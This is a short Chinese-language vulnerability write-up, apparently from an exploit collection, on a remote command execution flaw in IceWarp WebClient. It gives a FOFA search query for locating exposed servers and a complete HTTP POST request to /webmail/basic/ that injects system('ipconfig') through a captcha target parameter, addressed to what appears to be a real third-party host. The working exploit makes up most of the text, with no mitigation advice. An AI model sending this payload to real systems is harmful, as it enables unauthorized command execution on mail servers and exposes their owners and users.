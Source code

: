 # IceWarp WebClient basic 远程命令执行漏洞

## 漏洞描述

IceWarp WebClient 存在远程命令执行漏洞，攻击者构造特殊的请求即可远程命令执行

## 漏洞影响 

```
IceWarp WebClient
```

## FOFA

```
app="IceWarp-公司产品"
```

## 漏洞复现

登录页面如下

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101850566.png)



漏洞请求包为

```plain
POST /webmail/basic/ HTTP/1.1
Host: sd.sahadharawat.com
Content-Type: application/x-www-form-urlencoded
Cookie: use_cookies=1
Content-Length: 43

_dlg[captcha][target]=system(\'ipconfig\')\
```



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101851258.png)